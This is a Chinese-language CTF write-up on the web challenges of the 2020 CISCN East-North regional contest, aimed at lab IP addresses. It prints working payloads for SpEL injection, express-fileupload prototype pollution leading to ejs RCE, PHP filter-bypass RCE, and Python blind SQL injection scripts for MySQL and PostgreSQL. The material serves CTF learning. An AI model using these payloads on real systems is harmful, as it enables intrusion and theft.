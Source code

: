 ```yaml
---
title: 2020 CISCN 华东北赛区 WEB Writeup
date: 2020-09-19 22:14:55
tags: [web, ctf]
---
```


一共 6 题 WEB, 我一个人拿了 4 个一血, 还有一题全场 0 解. 然而没有 pwn 爷爷依旧被吊打, 而且题目质量是真的差, 明年再打国赛我是傻逼.

<!--more-->

## web3

http://172.20.29.103:80/flag.php 直接返回 flag. 你们赛宁没有题目复审的么?

## web4

随便 fuzz 根据报错得知是 sepl，构造 payload T%00 绕过过滤直接读文件即可, fix 的时候给看源码, 发现出题人正则写成了 `"T\\\\x00"`, 应该是想到了要过滤的, 你们赛宁没有题目复审的么? x2
```
POST / HTTP/1.1
Host: 172.20.29.104:8080
Content-Length: 91
Cache-Control: max-age=0
Origin: http://172.20.29.104:8080
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://172.20.29.104:8080/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,zh-TW;q=0.8,en;q=0.7
Connection: close

expr=T%00(java.nio.file.Files).readAllLines(T%00(java.nio.file.Paths).get%00('/flag.txt')) 
```

## web7

扫出来只有 static 文件夹，根据 server header 得知服务器用的 nginx，同时存在配置错误，可以目录穿越读取文件.  
http://172.20.29.107/static../app.js, 在源码中发现使用了 `express-fileupload` ，存在原型链污染，可以结合 ejs 利用，直接 rce

```
POST /4_pATh_y0u_CaNN07_Gu3ss HTTP/1.1
Host: 172.20.29.107
User-Agent: curl/7.64.1
Accept: */*
Content-Length: 263
Content-Type: multipart/form-data; boundary=------------------------a4826c30ee705335
Connection: close

--------------------------a4826c30ee705335
Content-Disposition: form-data; name="__proto__.outputFunctionName"

_tmp1;global.process.mainModule.require('child_process').exec('cat /flag.txt > flag.txt');var __tmp2
--------------------------a4826c30ee705335--
```
然后读取 http://172.20.29.107/static../flag.txt 即可

## web2

robots.txt 得到 hint.txt, 可以得到 sql 语句， 根据其特性，用 \ 来注入， 之后绕 waf 注入出密码，登陆后得到 c2ZtdHFs.php, 
```python
import requests
import string

sess = requests.session()
url = 'http://172.20.29.102/'

flag = '0x5e'
table = string.ascii_letters + '_' + string.digits
table = [ord(i) for i in table]
raw_flag = ''
for _ in range(100):
    for i in table:
        t = flag + hex(i)[2:].rjust(0, '2')
        #print(t)
        data = {
            'username': '\\',
            'password': '||password/**/regexp/**/binary/**/%s#' % t
        }

        res = sess.post(url, data)
        if 'success' in res.text:
            #print(chr(i))
            flag += hex(i)[2:].rjust(0, '2')
            print(flag)
            raw_flag += chr(i)
            print(raw_flag)
            break

    if i == table[-1]:
        print('WARNGIN')
```

用 & 绕一下过滤，即可 rce
```
GET /c2ZtdHFs.php?gzmtu=(sysuem%26sysvem)((currenu%26currenv)((weucmmhecders%26oevennheeders)())) HTTP/1.1
A: cat /flag.txt
Host: 172.20.29.102

```

## web5

pgsql 注入，双写绕过 select，之后熟悉下语法写脚本注入后登陆就有 flag
```python
import requests
import string

sess = requests.session()
url = 'http://172.20.29.105/index.php'

def to_chr(inp):
    ret = ''
    for i in inp:
        ret += f"||chr({ord(i)})"
    return ret

table = string.ascii_letters + string.digits + '_.-'
flag = ''
table = string.printable
table = [ord(i) for i in table]
query = 'selselectect/**/password/**/from/**/users/**/limit/**/1/**/OFFSET/**/0'

for _ in range(100):
    for i in table:
        t = to_chr(flag) + f'||chr({i})'
        t = t[2:]

        data = {
            'username': 'admin',
            'password': "admin'/**/or/**/'1'/**/and/**/cast(position(%s/**/in/**/(%s))/**/as/**/bool)/**/and/**/'1" % (t, query)
        }

        res = sess.post('http://172.20.29.105/index.php', data=data)
        #print(res.text)
        if 'hacker' in res.text:
            print('hacker')

        if 'Too Young Too Simple' in res.text:
            flag += chr(i)
            print(flag)
            break
        if i == table[-1]:
            print('WARNNING')

            for _ in range(100):
                for i in table:
                    t = f'||chr({i})' + to_chr(flag)
                    t = t[2:]
                    data = {
                        'username': 'admin',
                        'password': "admin'/**/or/**/'1'/**/and/**/cast(position(%s/**/in/**/(%s))/**/as/**/bool)/**/and/**/'1" % (
                        t, query)
                    }

                    res = sess.post('http://172.20.29.105/index.php', data=data)
                    # print(res.text)
                    if 'hacker' in res.text:
                        print('hacker')

                    if 'Too Young Too Simple' in res.text:
                        flag = chr(i) + flag
                        print(flag)
                        break
                    if i == table[-1]:
                        print('WARNNING')
```

## web6

这题目能把人气笑, 全场 0 解, 最后发现放了个 ssrf.php, 无任何提示, 就硬猜, 而且里面的过滤写成了 `/file:|http://|php/`, 这是过滤了个锤子, 你们赛宁没有题目复审的么? x3
